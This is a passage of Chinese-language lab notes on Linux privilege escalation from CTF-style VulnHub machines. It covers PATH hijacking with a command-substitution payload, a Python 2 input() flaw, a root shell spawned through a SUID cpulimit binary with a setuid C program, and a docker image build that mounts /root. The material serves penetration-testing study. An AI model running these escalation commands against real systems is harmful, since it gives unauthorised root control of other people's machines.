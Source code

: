 #### 十、PATH环境变量提权（LiterallyVulnerable）

> https://www.anquanke.com/post/id/146799 
>
> 如果你注意到’.’在环境PATH变量中，它表示登录的用户可以从当前目录执行二进制文
> 件/脚本，并且它可以成为攻击者升级为root权限的绝佳技术。这是因为管理员在编写
> 程序时缺乏注意，没有指定程序的完整路径。

> PWD是环境变量，而pwd对应的是可执行文件/usr/bin/pwd

```
export PWD=\$\(/bin/bash\)
```

#### 十一、python input() vulnerability（djinn）

> https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/ 

![Snipaste_2020-02-10_12-29-02.png](https://i.loli.net/2020/02/10/GjTCXZs3Oq51Rob.png)

#### 十二、SUID权限可执行文件cpulimit

> https://gtfobins.github.io/gtfobins/cpulimit/#

```
cpulimit -l 100 -f /bin/sh
```

root.c

```
#include<stdio.h>
#include<unistd.h>
#include<sys/types.h>

int main()
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

```
gcc root.c -o exp
```

```
cpulimit -l 100 -f ./exp
```



#### 十三、docker提权（hackNos-3）

第一步，先从https://alpinelinux.org/downloads/下载一个MINI ROOT FILESYSTEMrootfs，然后再使用wget下载到靶机里面。

```
nano Dockerfile

FROM scratch
ADD alpine-minirootfs-3.11.3-x86_64.tar.gz /
CMD ["/bin/sh"]

#构建
docker build -t alpine:3.11 .
#提升权限
docker run -v /root/:/mnt -it alpine:3.11
```
